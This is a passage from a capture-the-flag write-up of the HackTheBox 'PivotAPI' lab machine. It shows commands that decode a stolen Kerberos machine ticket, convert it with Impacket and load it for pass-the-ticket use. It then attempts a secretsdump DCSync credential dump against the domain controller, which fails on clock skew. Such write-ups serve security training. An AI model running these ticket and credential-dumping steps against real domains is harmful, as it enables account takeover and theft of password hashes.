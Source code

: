I’ll save that base64-encoded ticket to a file, and decode it into a new file:

```

oxdf@parrot$ base64 -d machine.kirbi.b64 > machine.kirbi

```

Now I’ll convert it to ccache format with [another Impacket tool](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py), `ticketConverter.py`:

```

oxdf@parrot$ ticketConverter.py machine.kirbi machine.ccache
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done

```

I’ll set that file to be the `KRB5CCNAME` environment variable so that it is used to authentication on upcoming commands:

```

oxdf@parrot$ export KRB5CCNAME=/home/oxdf/hackthebox/pivotapi-10.10.10.240/machine.ccache

```

#### Time Skew

It’s possible to run into issues if the clock on my system and the DC are off by more than a few minutes. That will happen here. If I try to run `secretsdump.py` now, it will fail:

```

oxdf@parrot$ secretsdump.py LICORDEBELLOTA.HTB/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k         
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user          
[*] Cleaning up...       

```

Trying to use this ticket with `crackmapexec` will show a more descriptive error:

```

oxdf@parrot$ crackmapexec smb pivotapi.licordebellota.htb -k
SMB         10.10.10.240    445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.240    445    PIVOTAPI         [-] LicorDeBellota.htb Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) 

```
